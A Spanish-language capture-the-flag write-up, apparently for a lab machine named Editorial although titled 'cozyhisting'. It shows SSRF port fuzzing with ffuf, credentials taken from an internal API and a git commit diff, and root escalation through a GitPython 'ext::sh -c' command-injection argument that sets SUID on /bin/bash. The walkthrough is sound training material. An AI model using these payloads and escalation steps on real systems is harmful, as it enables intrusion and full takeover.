

# Resolución maquina cozyhisting

**Autor:** PepeMaquina  
**Fecha:** 20 de octubre de 2025  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  
**Tags:** SSRF, API, GIT.

---
## Imagen de la Máquina

*Imagen: editorial.JPG*
## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.11.20 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80 10.10.11.20 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
### Enumeración de la página web
Al inspeccionar el resultado del escaneo se ve que redirige a un dominio especifico "editorial.htb" que agregamos al etc/hosts
~~~bash
cat /etc/hosts
127.0.0.1 localhost
<SNIP>
10.10.11.20 editorial.htb
~~~
Al inspeccionar la página web, se ve un apartado donde se puede colocar datos sobre algun libro.

Como se puede ver, tiene gran variedad de opciones de ataque, como un ataque xxs, se puede ver si la url funciona solamente para sitios externos o locales.
Lo primero que se prueba, es ver si en la url se puede hacer alguna petición a mi ip. Para ello se configura un servidor web en python y envia la solicitud al igual como se ve en la imagen anterior.

~~~
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.20 - - [20/Oct/2025 14:19:29] code 404, message File not found
10.10.11.20 - - [20/Oct/2025 14:19:29] "GET /tes HTTP/1.1" 404 -
~~~

Como se puede ver, se recibió una solicitud en nuestro servidor python, por lo que se me ocurre un posible ataque de SSRF viendo que puertos internos puede tener abierto.

### SSRF
Para ello se abrio "burpsuite", al momento de realizar una petición al mismo servidor por un puerto conocido porque ya hostea la página actual (80).

Revisando el resultado que entrego en la respuesta, no de pudo hallar nada relevante. En este  punto quedaria realizar fuerza bruta para todos los puertos, esto se lo puede hacer mediante "intruder" del repeter pero tarda mucha ya que no cuento con la version pro, asi que se utilizara la herramienta FUFF, para ello se copia la solicitud modificando el puerto con la palabra reservada FUZZ
~~~bash
cat ssrf.req
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------2653159973737174281512051722
Content-Length: 362
Origin: http://editorial.htb
Connection: keep-alive
Referer: http://editorial.htb/upload
Priority: u=0

-----------------------------2653159973737174281512051722
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ/
-----------------------------2653159973737174281512051722
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream

-----------------------------2653159973737174281512051722--
~~~
Y se realiza el fuzeo con la herramienta hasta que salga un resultado valido.
~~~bash
ffuf -u http://editorial.htb/upload-cover -request ssrf.req -w <(seq 0 65535) -ac                                                

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: /proc/self/fd/11
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 :: Header           : Accept: */*
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Content-Type: multipart/form-data; boundary=---------------------------2653159973737174281512051722
 :: Header           : Referer: http://editorial.htb/upload
 :: Header           : Host: editorial.htb
 :: Header           : Origin: http://editorial.htb
 :: Header           : Connection: keep-alive
 :: Header           : Priority: u=0
 :: Data             : -----------------------------2653159973737174281512051722
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ/
-----------------------------2653159973737174281512051722
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream

-----------------------------2653159973737174281512051722--
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 217ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
~~~
Esperando a que realice el fuzeo, se puede ver que en el puerto 5000 se tiene una respuesta, entonces probando esto en burp suite se nos entrega una direccion en la respuesta.

Colocando esto en el navegardor, descarga un archivo que es un json.

Al revisar el contenido se puede ver una api con distintas direcciones con sus peticiones.

~~~
cat e1d6f83b-4d60-4d9a-bce1-dc737a950c53 | jq
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}

~~~
Revisando cada paso de la salida, existe una dirección que se ve interesante y al cual navegare que es "/api/latest/metadata/messages/authors".
Al repetir todo el procedimiento, se la pasa a burpsuite.

Al colocar la respuesta en el navegador, descarga otro archivo json, al momento de leerlo se puede ver un mensaje con credenciales de algun usuario.
~~~bash
at a8e9f9eb-b9aa-43f3-8147-231b5ecc2000 | jq
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev<SNIP>API!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."                             
}
~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Al poder probar el ingreso por ssh empleando dichas credenciales, se puede ver que son validas y la user flag se encuentra en ese lugar.
~~~bash
ssh dev@10.10.11.20    
The authenticity of host '10.10.11.20 (10.10.11.20)' can't be established.
ED25519 key fingerprint is SHA256:YR+ibhVYSWNLe4xyiPA0g45F4p1pNAcQ7+xupfIR70Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.20' (ED25519) to the list of known hosts.
dev@10.10.11.20's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon Oct 20 07:16:24 PM UTC 2025

  System load:           0.08
  Usage of /:            61.8% of 6.35GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.20
  IPv6 address for eth0: dead:beef::250:56ff:fe94:efbe

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52
dev@editorial:~$ ls
apps  user.txt
dev@editorial:~$ cat user.txt 
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios

### Pivoteo al usuario proc
Al ver los archivos que hay en el directorio, se encontro un archivo .git, esta posiblemente tenga credenciales para otro usuario.
~~~bash
dev@editorial:~$ ls -la
total 32
drwxr-x--- 4 dev  dev  4096 Jun  5  2024 .
drwxr-xr-x 4 root root 4096 Jun  5  2024 ..
drwxrwxr-x 3 dev  dev  4096 Jun  5  2024 apps
lrwxrwxrwx 1 root root    9 Feb  6  2023 .bash_history -> /dev/null
-rw-r--r-- 1 dev  dev   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 dev  dev  3771 Jan  6  2022 .bashrc
drwx------ 2 dev  dev  4096 Jun  5  2024 .cache
-rw-r--r-- 1 dev  dev   807 Jan  6  2022 .profile
-rw-r----- 1 root dev    33 Oct 20 17:19 user.txt
dev@editorial:~$ cd apps/
dev@editorial:~/apps$ cd .git
dev@editorial:~/apps/.git$ ls
branches  COMMIT_EDITMSG  config  description  HEAD  hooks  index  info  logs  objects  refs
~~~
Al revisar los archivos no se encontro algo importante, pero comprobando los commits se vio una que podria ser util
~~~bash
dev@editorial:~/apps/.git$ git log
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info
    
    * It (will) contains internal info about the editorial, this enable
       faster access to information.

commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:48:43 2023 -0500

    feat: create editorial app
    
    * This contains the base of this project.
    * Also we add a feature to enable to external authors send us their
       books and validate a future post in our editorial
~~~
El commit con el id "b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae" tiene un mensaje interesante que menciona al usuario proc, por lo que viendo su contenido se tiene.
~~~bash
dev@editorial:~/apps/.git$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
~~~
Encontrando asi credenciales del usuario proc, por lo que se intenta ver si las credenciales son validas.
~~~bash
dev@editorial:~/apps/.git$ su prod
Password: 
prod@editorial:/home/dev/apps/.git$
~~~
Efectivamente, las credenciales encontradas son validas.
### Acceso a root
Con este usuario se probaron los comandos básicos como "sudo -l" y se encontro un script interesante con permisos.
~~~bash
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
~~~
Al revisar el script, es primera vez que veo el uso de la libreria "repo", por lo que con ayuda de la IA, dice que la configuración de "multi_options=["-c protocol.ext.allow=always"]" puede ser peligrosa, ya que permite la ejecución de comandos, por lo que esta puede ser la via de ataque.
Buscando en internet alguna forma de explotar esto, se encontro una POC de snik que dice como ejecutarla (https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)
Replicando la PoC para crear un archivo en /tmp
~~~bash
prod@editorial:/tmp$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c touch% /tmp/pwned"
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/pwned new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
~~~
Al parecer ocurren errores al intentar replicar la PoC, pero por curiosidad me dirigi a la carpeta /tmp para ver si por casualidad se creaba por accidente, y efectivamente si se creo.
~~~bash
prod@editorial:/tmp$ ls
pwned
systemd-private-d2329ca3e2084a85951a33696b0a3a86-fwupd.service-xIIkHR
systemd-private-d2329ca3e2084a85951a33696b0a3a86-ModemManager.service-a0AZdq
systemd-private-d2329ca3e2084a85951a33696b0a3a86-systemd-logind.service-8BFawX
systemd-private-d2329ca3e2084a85951a33696b0a3a86-systemd-resolved.service-GbxTSX
systemd-private-d2329ca3e2084a85951a33696b0a3a86-systemd-timesyncd.service-72P9ho
systemd-private-d2329ca3e2084a85951a33696b0a3a86-upower.service-3F43tx
vmware-root_879-4013723248
~~~
Entonces no entiendo porque saldra el error pero indirectamente la crea. Modificando la inyección de comandos se otorga permisos SUID a la /bin/bash.
~~~bash
prod@editorial:/tmp$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/bash'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c chmod% u+s% /bin/bash new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.

~~~
Ahora revisando los permisos, si efectivamente tiene permisos SUID.
~~~bash
prod@editorial:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con los permisos SUID en la /bin/bash, ya se puede leer la root flag y realizar todo lo que se quisiera para lograr persistencia.
~~~bash
prod@editorial:/tmp$ /bin/bash -p
bash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
 🎉 Sistema completamente comprometido - Root obtenido
